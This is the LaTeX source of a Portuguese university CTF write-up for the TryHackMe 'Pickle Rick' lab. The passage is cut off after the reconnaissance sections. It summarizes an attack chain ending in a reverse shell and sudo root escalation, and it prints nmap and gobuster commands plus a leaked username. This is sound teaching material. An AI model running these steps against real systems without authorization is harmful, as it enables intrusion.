%==============================================================================
% Write-Up de CTF - Pickle Rick (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{Pickle Rick}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{30/08/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%------------ Caixa de "becos sem saida" (tentativas sem sucesso) --------------
\definecolor{deadendbg}{RGB}{255,248,240}
\definecolor{deadendframe}{RGB}{193,108,44}
\newtcolorbox{becosemsaida}[1][Tentativas sem sucesso (becos sem saída)]{%
  enhanced, breakable,
  colback=deadendbg, colframe=deadendframe,
  colbacktitle=deadendframe, coltitle=white,
  boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\small,
  title={#1}%
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \dataResolucao \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{Pickle Rick} é uma máquina Linux de dificuldade \emph{fácil}, temática
da série \emph{Rick and Morty}, que expõe um servidor web Apache. A superfície
de ataque explorada é integralmente a aplicação web: as credenciais de acesso
ficam \emph{vazadas} em recursos públicos --- o nome de usuário no código-fonte
da página inicial e a senha em \texttt{/robots.txt} ---, o que permite
autenticar em um \emph{Portal} que disponibiliza um \emph{Command Panel}: um
formulário que executa comandos arbitrários do sistema operacional (execução
remota de código por \emph{design}). A partir dessa execução, obtém-se um
\emph{reverse shell} como o usuário \texttt{www-data}. A enumeração local revela
uma configuração perigosa do \texttt{sudo} (\texttt{www-data} pode executar
qualquer comando como \texttt{root} sem senha), abusada para obter \texttt{root}.
O objetivo da sala é coletar três \emph{ingredientes secretos} (as \emph{flags}),
recolhidos ao longo do caminho. O fluxo geral foi: reconhecimento
(Nmap + Gobuster) $\rightarrow$ coleta de credenciais (código-fonte +
\texttt{robots.txt}) $\rightarrow$ \emph{login} no painel $\rightarrow$ execução
de comandos / \emph{reverse shell} $\rightarrow$ acesso como \texttt{www-data}
$\rightarrow$ escalada via \texttt{sudo} mal configurado $\rightarrow$
\texttt{root}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
A varredura inicial identifica quais serviços estão expostos e suas portas,
orientando as fases seguintes.

\begin{lstlisting}[language=bash,caption={Varredura de portas e serviços com Nmap.}]
nmap -T4 <TARGET_IP>
\end{lstlisting}

Apenas duas portas abertas: \textbf{22/tcp (SSH)} e \textbf{80/tcp (HTTP)}.
Uma verificação com \cmd{ssh -v R1ckRul3s@<TARGET_IP>} mostrou que o serviço
SSH aceita \textbf{apenas autenticação por chave pública} (\emph{publickey}),
de modo que, sem material de chave, o SSH não é um vetor imediato --- o foco
recai sobre o serviço web.

\begin{lstlisting}[style=output,caption={Portas abertas retornadas pela varredura.}]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{nmap.png}
  \caption{Varredura Nmap contra o alvo: apenas as portas 22 (SSH) e 80 (HTTP)
  abertas.}
  \label{fig:nmap}
\end{figure}

\subsection{Enumeração do serviço web}
A página inicial (\texttt{index.html}) apresenta a narrativa ``\emph{Help
Morty!}'': Rick pede que Morty acesse seu computador para encontrar os três
ingredientes secretos e comenta ter \emph{esquecido a senha}. A mensagem já
sinaliza que o desafio gira em torno de credenciais e de um painel autenticado.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\linewidth]{home.png}
  \caption{Página inicial: a narrativa define o objetivo (coletar os três
  ingredientes) e sugere que a senha foi ``esquecida''.}
  \label{fig:home}
\end{figure}

A inspeção do \emph{código-fonte} da página (\emph{view-source}) revela um
comentário HTML deixado pelo desenvolvedor contendo o \textbf{nome de usuário}.

\begin{lstlisting}[style=output,caption={Comentário no código-fonte expondo o usuário.}]
<!--
  Note to self, remember username!
  Username: R1ckRul3s
-->
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{user_in_sourcecode.png}
  \caption{Código-fonte da página inicial: comentário HTML expõe o nome de
  usuário \texttt{R1ckRul3s}.}
  \label{fig:source}
\end{figure}

O diretório \texttt{/assets} possui \emph{directory listing} habilitado --- uma
má configuração que, além de facilitar a enumeração, expõe a versão exata do
servidor no rodapé: \textbf{Apache/2.4.41 (Ubuntu)}. O conteúdo, porém, é apenas
o material estático do tema (CSS, JS e imagens), sem informação sensível ---
um caminho verificado e descartado.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\linewidth]{assets.png}
  \caption{\emph{Directory listing} habilitado em \texttt{/assets}, expondo a
  versão do servidor (Apache/2.4.41 -- Ubuntu) no rodapé.}
  \label{fig:assets}
\end{figure}

Para mapear recursos não referenciados, foi executado o Gobuster com a
\emph{wordlist} \texttt{common.txt} do \emph{Kali Linux}, incluindo as
\textbf{extensões de arquivo} \texttt{php}, \texttt{txt} e \texttt{html} --- o
que se mostrou decisivo, pois os pontos de entrada relevantes são arquivos
\texttt{.php}.

\begin{lstlisting}[language=bash,caption={Enumeração de diretórios e arquivos com Gobuster.}]
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
\end{lstlisting}

Os achados relevantes são \texttt{login.php} (painel de \emph{login}),
\texttt{portal.php} e \texttt{denied.php} (que redirecionam para o \emph{login})
e \texttt{robots.txt}.

\begin{lstlisting}[style=output,caption={Achados do Gobuster (trecho relevante).}]
assets       (Status: 301)  [--> /assets/]
denied.php   (Status: 302)  [--> /login.php]
index.html   (Status: 200)
login.php    (Status: 200)              <-- painel de login
portal.php   (Status: 302)  [--> /login.php]   <-- painel de comandos (pos-login)
robots.txt   (Status: 200)              <-- contem a senha
server-status(Status: 403)
\end{lstlisting}

\begin{figure}[H]
  \centering
